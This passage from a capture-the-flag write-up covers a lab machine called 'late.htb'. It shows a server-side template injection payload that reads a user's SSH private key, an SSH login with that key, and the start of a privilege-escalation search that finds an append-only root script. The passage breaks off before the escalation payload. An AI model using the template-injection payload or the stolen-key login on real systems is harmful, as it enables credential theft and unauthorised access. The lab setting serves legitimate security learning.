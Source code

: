 ```python
{{ get_flashed_messages.__globals__.__builtins__.open("/home/svc_acc/.ssh/id_rsa").read() }}
```

![](https://user-images.githubusercontent.com/60070427/173341895-8e6467df-d9e1-48fb-bf23-622d5e0f0549.png)

we got the private key, we will save the private key in a file with any name and use it to connect. now let's try to connect with the private key 'ssh_auth.txt'

```bash
┌──(kali㉿kali)-[~]
└─$ ssh svc_acc@10.10.11.156 -i my_key.txt
```
and we are in now :).

![](https://user-images.githubusercontent.com/60070427/173342968-685a5ab2-bfcf-4336-a1ed-d9a025d3c2c2.png)

# [+] Privilege Escalation
As the first thing I do is try `sudo -l` to list all available sudo permissions but it was in vain on this machine. so I try LinPEAS.sh and pspy to get all available information about the running process and its permissions without root permissions to view them. and I found that there is a bash script that runs with root permissions called `ssh-alert.sh` and we can read this file contains the following:

```bash
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

this file is a readable and semi-modifiable file cause we can append data to it -but can't open and write inside it directly- we can know this attribute value by using this command.

```bash
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh 
-----a--------e--- /usr/local/sbin/ssh-alert.sh
```
